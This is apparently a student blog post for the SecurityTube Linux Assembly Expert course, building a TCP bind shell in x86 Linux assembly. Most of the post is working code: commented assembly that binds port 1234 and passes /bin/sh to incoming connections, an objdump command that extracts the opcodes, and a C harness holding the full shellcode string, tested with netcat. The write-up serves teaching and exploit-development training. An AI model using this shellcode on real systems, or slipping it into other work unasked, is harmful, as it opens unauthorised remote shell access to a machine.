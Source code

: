 ```yaml
---
title: "SLAE Assignment 1"
date: 2018-02-02
published: true
---
```

<!-- categories: securitytube slae linux assembly -->

### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 1 of the SLAE requires students to create a TCP bind shell in assembly which binds to a port and executes a shell on an incoming connection. Additionally, the port number should be configurable upon execution.

If I break down the functions required for a TCP bind shell in a basic C program, the functions used would be as follows:

1. socketCall
2. bind
3. listen
4. dup2 (x3)
5. execve

I used an online resource to determine the registers and function parameters of each system call above. Each function is separated in the below assembly and executed one at a time until the final execve call is executed.

The networking socket functions can be found with cat /usr/include/linux/net.h which will tell us the call identifier used in the socketcall function since they are different for each operation.

Putting everything together I got the assembly code below.

```
;Author: Will Summerhill
;Create shell_bind_tcp shellcode
;bind to a port - accept as input
;exec shell on incoming connections

;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket - socketcall = 102 (hex 0x66)
;cat /usr/include/i386-linux-gnu/bits/socket_type.h |grep 'SOCK_STREAM'
;Function socket(domain, type, protocol)
;    (AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
;    (EAX, EBX, ECX)

global _start

section .text
_start:

; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x02

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x01

  xor edx, edx    ;EDX: IPPROTO_IP = 0
   
  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  xor ecx, ecx
  mov ecx, esp    ;save stack into ECX

  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80    ;execute

  mov edx, eax    ;EDX = sockfd output

; Bind function:
  ;int bind(int sockfd, const struct sockaddr *addr(), socklen_t addrlen)
  
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [1234], IP addr = INADDR_ANY [0])
  xor ebx, ebx
  push ebx    ;INADDR_ANY = 0
  push word 0xd204  ;PORT: bind port = 1234 in reverse order (0x04d2)  
  push word 2    ;AF_INET = 2
  mov ecx, esp    ;save stack into ECX
  
  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx    ;*addr function
  push edx    ;sockfd = socket from Socketcall function above

  ;call syscall to execute
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x02    ;socketcall type = sys_bind 2
  
  mov ecx, esp    ;move to ECX for execution
  int 0x80    ;execute BIND

; Listen function:
  ;int listen(int sockfd = SOCK_STREAM, int backlog = 1)
  ;Push in reverse order to stack
  push 0x01  ;backlog
  push edx  ;sockfd = Socket from above
  
  xor eax, eax
  xor ebx, ebx
  mov al, 0x66  ;syscall = 0x66 hex (102 decimal)
  mov bl, 0x04  ;socketcall type = SYS_LISTEN
  
  mov ecx, esp
  int 0x80  ;execute syscall

; Accept function:
  ;accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  ;  sockfd = listening socket created above
  ;  *addr = pointer to a sockaddr structure = NULL
  ;  addrlen = size of *addr = NULL
  
  xor eax, eax  ;clear registers
  xor ebx, ebx

  ; Push in reverse order
  push eax  ;addrlen = NULL
  push eax  ;*addr = NULL
  push edx  ;sockfd = created socket
  mov ecx, esp  ;move function from stack into ECX

  mov al, 0x66  ;syscall to execute
  mov bl, 0x05  ;socketcall type = SYS_ACCEPT 5

  int 0x80  ;execute LISTEN
  mov edx, eax  ;save returned sockfd into old socket

; Dup2 functions:
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)
  
  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx    ;STDOUT = 1
  int 0x80  ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx    ;STDERR = 2
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000
  
  ;Push contents in reverse order
  xor eax, eax
  push eax

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp    ;move into EBX 

  push eax  ;add 0 to stack
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

It is possible to configure the bind port number as needed by modifying the shellcode in ASM at the line with “;PORT: bind port = 1234” by adding a different port number in big-endian format. 

I’ll use objdump to pull the shellcode from the program and copy it over to C.  
```
objdump -d ./A1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Now I’ll copy the shellcode into C so we can execute it. 

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

Once we compile it the bind shell should listen for incoming connections. After executing the program and connecting using netcat, we get the bind shell on localhost.  

![image](https://user-images.githubusercontent.com/35749735/192896487-de82cef1-22eb-49d8-9fcf-c509dbfcdf12.png)

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
